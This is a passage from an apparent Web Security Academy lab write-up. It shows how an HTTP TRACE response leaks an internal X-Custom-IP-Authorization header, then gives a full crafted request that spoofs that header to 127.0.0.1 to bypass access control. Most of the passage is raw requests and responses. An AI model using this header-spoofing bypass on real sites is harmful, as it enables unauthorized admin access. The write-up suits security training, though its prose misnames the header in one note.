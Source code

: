 The response with `TRACE` http header was,

```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 696

TRACE /my-account?id=carlos HTTP/1.1
Host: ac7elfS5le6c101460675192007600ba.web-security-academy.net
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate
referer: https://ac7elfS5le6c101460675192007600ba.web-security-academy.net/login
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: same-origin
sec-fetch-user: ?1
te: trailers
cookie: session=Cg9Tz6WFnRqBebiW7cfpYpvb1QUuybt8
Content-Length: 0
X-Custom-IP-Authorization: 152.58.224.8
```

> **TRACE** method **echoes  the exact same request that was received in the response** . This behavior is often harmless, but occasionally leads to *information disclosure*, such as the name of internal authentication headers that may be appended to requests

From the above response, we can understand that **X-Custom-IP-Authorization** header is supported . So we can use it in the request.

> NOTE - By using `X-Custom-Authorization` header we can spoof our IP addresses. EG- `X-Custom-Authorization: 127.0.0.1`

So if we spoof our IP as localhost, maybe sometimes the website will not validate it since it is coming from a trusted server. So by this way it will help us access the admin panel without admin credentials.

We now send a request like this below,

```http
GET /my-account?id=carlos HTTP/2
Host: ac7elfS5le6c101460675192007600ba.web-security-academy.net
Cookie: session=dsewcRqBebiW7cfpYpvb1QUuybt8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac7elfS5le6c101460675192007600ba.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```
